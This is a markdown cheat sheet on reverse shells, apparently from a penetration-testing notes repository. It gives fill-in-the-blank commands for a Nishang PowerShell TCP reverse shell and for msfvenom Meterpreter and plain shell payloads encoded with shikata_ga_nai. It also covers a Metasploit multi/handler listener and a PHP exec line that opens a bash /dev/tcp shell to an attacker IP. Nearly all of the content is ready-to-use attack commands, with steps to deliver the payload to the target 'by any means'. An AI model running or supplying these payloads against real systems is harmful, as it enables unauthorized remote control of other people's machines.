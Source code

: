 # Reverse Shells

* [Nishang Invoke PowerShell TCP](#nishang-invoke-powershell-tcp)
* [Windows Meterpreter Reverse Shell](#windows-meterpreter-reverse-shell)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket charactors themselves [ ] require removal. See examples.
*********************************************************************************

## Nishang Invoke PowerShell TCP

1. Paste this nishang file into a blank text document: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
2. Name it "Invoke-PowerShellTcp.ps1" (remove quotes)
3. Transfer the newly created file to the target machine by any means
4. Have the target machine trigger this command:
```
Invoke-PowerShellTcp -Reverse -IPAddress [ATTACK-IP] -Port [PORT]
```
Example: 
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.66.69 -Port 8686
```
********************************************************************************
## Windows Meterpreter Reverse Shell

1. Use this command to create a Windows Meterpreter reverse shell: 
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[ATTACK-IP] LPORT=[PORT] -f exe -o [OUTPUT-FILE]
```
Example: 
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.66.69 LPORT=8686 -f exe -o exploit.exe
```

2. Transfer the file to target machine by any means
3. Start the listener on attack machine:
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST [attack-ip] 
set LPORT [listening-port] 
run
```
********************************************************************************
Another way to generate a reverse shell as an Windows executable:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=[PORT] -e x86/shikata_ga_nai -f exe-service -o [FILE]
```
********************************************************************************
## PHP Reverse Shell Listener

1. Start listener on Attack-Machine:
2. Get target machine to run this PHP code:
```
exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACK-IP]/[PORT] 0>&1'")
```
